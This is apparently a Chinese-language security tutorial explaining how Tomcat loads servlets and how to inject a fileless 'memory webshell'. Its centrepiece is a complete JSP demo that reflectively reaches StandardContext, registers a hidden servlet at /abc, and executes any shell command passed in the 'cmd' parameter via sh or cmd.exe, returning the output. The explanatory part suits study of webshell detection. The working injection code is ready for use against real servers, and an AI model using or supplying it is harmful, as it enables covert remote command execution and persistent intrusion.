


# Tomcat-Servlet型内存马

## 简单配置一个Servlet

在web.xml添加

```xml
<servlet>
<servlet-name>TestServlet</servlet-name>
<servlet-class>test.TestServlet</servlet-class>
</servlet>

<servlet-mapping>
<servlet-name>TestServlet</servlet-name>
<url-pattern>/kaixin</url-pattern>
</servlet-mapping>
```

随便写一个Servlet

```Java
public class TestServlet extends HttpServlet {
public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {        PrintWriter writer = response.getWriter();
writer.println("hello");
}
```

## 断点调试

在org.apache.catalina.core.StandardContext#loadServlet下断点看看怎么加载一个servlet的我们才能写内存马

先回溯到`org/apache/catalina/core/StandardContext.java`，虽然没啥多余的意义，但是我们在这里看到了确实是先加载完Listener和Filter之后，才装载Servlet


前面已经完成了将所有 servlet 添加到 context 的 children 中，this.findChildren()即把所有Wapper（负责管理Servlet）传入loadOnStartup()中处理，可想而知loadOnStartup()就是负责动态添加Servlet的一个函数

可以看到下面图中首先获取Context下所有的Wapper类，并获取到每个Servlet的启动顺序，选出 >= 0 的项加载到一个存放Wapper的list中


在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器：

然后对每个wapper进行装载


装载所有的 Servlet 之后，就会根据具体请求进行初始化、调用、销毁一系列操作： 

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

一步步调试很麻烦，网上看到这篇文章https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w找到了启发

直接查看添加一个servlet后StandardContext的变化



一个child对应一个封装了Servlet的StandardWrapper对象，其中有servlet的名字跟对应的类



对应了配置中的

```xml
<servlet-mapping>
<servlet-name>TestServlet</servlet-name>
<url-pattern>/kaixin</url-pattern>
</servlet-mapping>
```

所以Servlet型内存Webshell的主要步骤如下：

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

## demo


```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    // 一个小路径快速获得StandardContext
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    // url绑定
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/abc", name);
%>
```

## 测试

先访问jsp注入servlet内存马


接下来访问路由成功弹出计算器

